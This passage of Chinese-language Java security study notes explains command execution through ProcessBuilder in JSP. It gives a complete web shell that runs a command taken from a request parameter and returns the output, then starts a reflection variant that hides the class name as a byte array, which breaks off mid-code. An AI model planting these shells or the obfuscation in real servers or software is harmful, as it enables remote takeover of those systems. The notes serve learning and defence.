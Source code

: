 #### ProcessBuilder命令执行:

学习`Runtime`命令执行的时候我们讲到其最终`exec`方法会调用`ProcessBuilder`来执行本地命令，那么我们只需跟踪下Runtime的exec方法就可以知道如何使用`ProcessBuilder`来执行系统命令了。

```
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%
    InputStream  ios=new ProcessBuilder(request.getParameter("a")).start().getInputStream();//这里获取a，a就可以传参
    //这里使用了request.getParameter方法的原因是processbuilder只接收字符数组，getInputStream表示获取inputstream
    ByteArrayOutputStream bos = new ByteArrayOutputStream();
    byte [] bytes =new byte[1024];
    int len;
    while ((len = ios.read(bytes))!=-1){
        bos.write(bytes,0,len);//len可以理解为个数，读取到的个数
    }
    out.write(bos.toString());

        %>
```

<img src="image/image-20231031170318161.png" alt="image-20231031170318161" style="zoom:80%;" />

#### jsp反射processbuilder命令执行：

代码：

```
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page contentType="text/html;charset=UTF-8" %>

<%
    //接收request数组对象
    Object cmd = request.getParameterValues("cmd");
    out.write(cmd.toString());

    //反射获取java.lang.ProcessBuilder类
    Class clazz = Class.forName(new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 80, 114, 111, 99, 101, 115, 115, 66, 117, 105, 108, 100, 101, 114}));
//byte接收字节数组，String类构造器自动转成字符串

```